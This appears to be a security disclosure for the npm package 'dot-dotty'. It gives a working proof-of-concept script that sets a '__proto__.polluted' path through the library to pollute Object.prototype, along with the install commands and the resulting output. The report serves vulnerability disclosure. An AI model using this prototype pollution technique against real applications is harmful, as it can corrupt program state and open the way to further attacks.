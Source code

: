 # Description

`dot-dotty` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const DotDotty = require('dot-dotty')
let obj = {a: 1}
let dot = DotDotty(obj)
console.log("Before : " + {}.polluted);
dot['__proto__.polluted'] = 'Yes! Its Polluted';
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i dot-dotty # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
